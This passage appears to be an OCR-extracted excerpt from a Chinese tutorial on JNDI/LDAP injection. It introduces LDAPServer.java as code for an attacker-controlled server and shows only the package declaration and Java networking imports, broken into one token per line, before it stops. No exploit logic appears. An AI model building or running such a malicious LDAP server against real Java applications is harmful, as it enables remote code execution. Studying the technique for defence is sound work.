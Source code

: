 LDAPServer.java 服务端代码，服务端是攻击者控制的服务器。  
  
package  
  
jndi_ldap_injection  
;  
  
  
import  
  
java  
.  
net  
.  
InetAddress  
;  
  
import  
  
java  
.  
net  
.  
MalformedURLException  
;  
  
import  
  
java  
.  
net  
.  
URL  
;  
  
import  
  
javax  
.  
net  
.  
ServerSocketFactory  
;  
  
import  
  
javax  
.  
net  
.  
SocketFactory  
;  
  
import  
  
javax  
.  
net  
.  
ssl  
.  
SSLSocketFactory  
;  
  